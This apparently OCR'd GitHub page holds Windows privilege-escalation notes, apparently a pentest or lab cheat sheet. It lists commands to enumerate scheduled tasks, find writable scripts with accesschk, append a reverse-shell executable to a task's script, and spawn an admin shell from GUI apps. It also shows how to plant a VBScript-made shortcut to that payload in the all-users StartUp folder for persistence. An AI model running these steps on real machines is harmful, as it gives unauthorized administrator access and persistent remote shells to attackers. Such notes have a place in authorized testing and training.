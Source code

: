 ```cmdlet
schtasks /query /fo LIST /v
```
```powershell
Get-ScheduledTask | where {$_.TaskPath -notlike "\Microsoft*"} | ft TaskName,TaskPath,State
```

Check if the powershell script is writable or not.
```Powershell
accesschk.exe /acccepteula -quvw user C:\DevTools\CleanUp.ps1 
```

Then do one things id you have access to it overwrite it 
```cmdlet
echo C:\PrivEsc\reverse.exe >> C:\DevTools\CleanUp.ps1
```

***Do this with cmd not powershell in last you can try with powershell.***
# Insecure GUI apps
In some older version of windows, users could run apps with admin privileges 
There aree often numerous ways to spawn command prompts from within GUI apps, including using native Windows functionality.

Run the available applicaton that runs as admin 
**In the Navigation bar after File-> Open type:**
``C:\Windows\System32\cmd.exe``
and Enter.

# StartUp Apps
Windows has startup directory for apps that should start for all users:
`C:\ProgramData\Microsoft\Windows\Satrt Menu\Programs\StartUp`
*If we can create file in this directory then we can get the shell*

Check the access:
```cmd
accesschk.exe /accepteula -d "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"
```

Now create a shotcut to your reverse.exe:

```powershell
Set oWS = WScript.CreateObject("WScript.Shell")
sLinkFile = "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\reverse.lnk"
Set oLink = oWS.CreateShortcut(sLinkFile)
oLink.TargetPath = "C:\PrivEsc\reverse.exe"
oLink.Save
```
*CreateShortcut.vbs*

Run CreateShortcut.vbs (`cscript C:\PrivEsc\CreateShortcut.vbs`) and then login as admin with a password. :/

`rdesktop -u admin [IP]`

<center><h1>Installed Apps</h1></center>
